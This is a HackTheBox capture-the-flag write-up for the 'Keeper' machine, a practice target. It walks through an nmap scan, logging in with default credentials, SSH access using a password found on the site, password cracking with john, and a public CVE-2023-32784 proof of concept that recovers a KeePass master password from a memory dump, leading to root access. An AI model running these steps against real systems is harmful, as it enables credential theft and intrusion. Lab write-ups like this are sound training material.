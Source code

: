 ```yaml
---
title: Keeper HTB (English)
image: /assets/img/Anexos/Máquina%20Keeper-17.png
description: Granny HackTheBox Machine [Difuculty easy]
categories: [CTF,HackTheBox]
tags: [hacking,easy]
---
```




## Introduction

 Keeper is an easy-difficulty Linux machine that features a support ticketing system that uses default credentials. Enumerating the service, we are able to see clear text credentials that lead to SSH access. With `SSH` access, we can gain access to a KeePass database dump file, which we can leverage to retrieve the master password. With access to the `Keepass` database, we can access the root `SSH` keys, which are used to gain a privileged shell on the host. 
### Machine Description

![](/assets/img/Anexos/Máquina%20Keeper-20.png)

- Name: Keeper
- Goal: Get two flags
- Difficulty: easy
- Operating System: Linux
- link: [Keeper](https://app.hackthebox.com/machines/556)


### PDF Link
- PDF: [PDF Link](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/HTB/M%C3%A1quina%20Keeper.pdf)



## Reconnaissance 


Keeper is an easy-difficulty Linux machine that features a support ticketing system that uses default credentials. Enumerating the service, we are able to see clear text credentials that lead to SSH access. With `SSH` access, we can gain access to a KeePass database dump file, which we can leverage to retrieve the master password. With access to the `Keepass` database, we can access the root `SSH` keys, which are used to gain a privileged shell on the host.



We staring as always using `nmap` in order to know ports and services running in the victim machine.
```shell
nmap -sSCV -p- --open --min-rate=5000 -Pn -n 10.10.11.227 -oN scan1.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-12 18:45 CEST
Stats: 0:00:11 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 69.95% done; ETC: 18:46 (0:00:05 remaining)
Nmap scan report for 10.10.11.227
Host is up (0.34s latency).
Not shown: 63760 closed tcp ports (reset), 1773 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.94 seconds
```

Nmap reports us the port _22_, and _80_:

In the web we can see two domains so I add those to the _/etc/hosts_

![](/assets/img/Anexos/Máquina%20Keeper.png)

![](/assets/img/Anexos/Máquina%20Keeper-1.png)

 In the _keeper.htb_ domain we can see that there is a login which is using RT:
![](/assets/img/Anexos/Máquina%20Keeper-3.png)

Searching we get the default credentilas and once we trying we successfully login.

![](/assets/img/Anexos/Máquina%20Keeper-4.png)

Once in, I see the next user:

![](/assets/img/Anexos/Máquina%20Keeper-5.png)

## Explotation

On settings dashboard there is a comment with a password:

![](/assets/img/Anexos/Máquina%20Keeper-6.png)


So now we can try using the user and the found password to login via `ssh` and we're in:

```shell
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
lnorgaard@keeper:~$ ls -la
total 85384
drwxr-xr-x 4 lnorgaard lnorgaard     4096 Jul 25  2023 .
drwxr-xr-x 3 root      root          4096 May 24  2023 ..
lrwxrwxrwx 1 root      root             9 May 24  2023 .bash_history -> /dev/null
-rw-r--r-- 1 lnorgaard lnorgaard      220 May 23  2023 .bash_logout
-rw-r--r-- 1 lnorgaard lnorgaard     3771 May 23  2023 .bashrc
drwx------ 2 lnorgaard lnorgaard     4096 May 24  2023 .cache
-rw------- 1 lnorgaard lnorgaard      807 May 23  2023 .profile
-rw-r--r-- 1 root      root      87391651 Apr 12 19:12 RT30000.zip
drwx------ 2 lnorgaard lnorgaard     4096 Jul 24  2023 .ssh
-rw-r----- 1 root      lnorgaard       33 Apr 12 18:42 user.txt
-rw-r--r-- 1 root      root            39 Jul 20  2023 .vimrc
lnorgaard@keeper:~$ unzip RT30000.zip
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx     
```


A keepass database exists so lets first move it to our machine using `nc`:
![](/assets/img/Anexos/Máquina%20Keeper-9.png)

![](/assets/img/Anexos/Máquina%20Keeper-8.png)

We need the password key to unlock it, we can try using `john`:
```shell
❯ keepass2john passcodes.kdbx > hash
```

```shell
john hash -w=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "KeePass", but the string is also recognized as "KeePass-opencl"
Use the "--format=KeePass-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [AES/Argon2 128/128 SSE2])
Cost 1 (t (rounds)) is 60000 for all loaded hashes
Cost 2 (m) is 0 for all loaded hashes
Cost 3 (p) is 0 for all loaded hashes
Cost 4 (KDF [0=Argon2d 2=Argon2id 3=AES]) is 3 for all loaded hashes
Will run 12 OpenMP threads
Note: Passwords longer than 41 [worst case UTF-8] to 124 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
0g 0:00:00:44 3.07% (ETA: 20:33:03) 0g/s 11611p/s 11611c/s 11611C/s gadsden..gabytkm
```

But this is just a rabbit hole. We can try to exploit using the  CVE-2023-32784:


- https://github.com/dawnl3ss/CVE-2023-32784

## Privilage Escalation

```shell
❯ sudo python3 poc.py KeePassDumpFull.dmp
2025-04-12 20:20:09,723 [.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```
I've got this possible passwords. Looking on Google I found what seem the full password:


![](/assets/img/Anexos/Máquina%20Keeper-11.png)
Once in we see the root putty key file, so lets use it in order to log in as root using `putty`:

![](/assets/img/Anexos/Máquina%20Keeper-12.png)

![](/assets/img/Anexos/Máquina%20Keeper-13.png)


![](/assets/img/Anexos/Máquina%20Keeper-14.png)

![](/assets/img/Anexos/Máquina%20Keeper-15.png)

![](/assets/img/Anexos/Máquina%20Keeper-16.png)

And we're root.

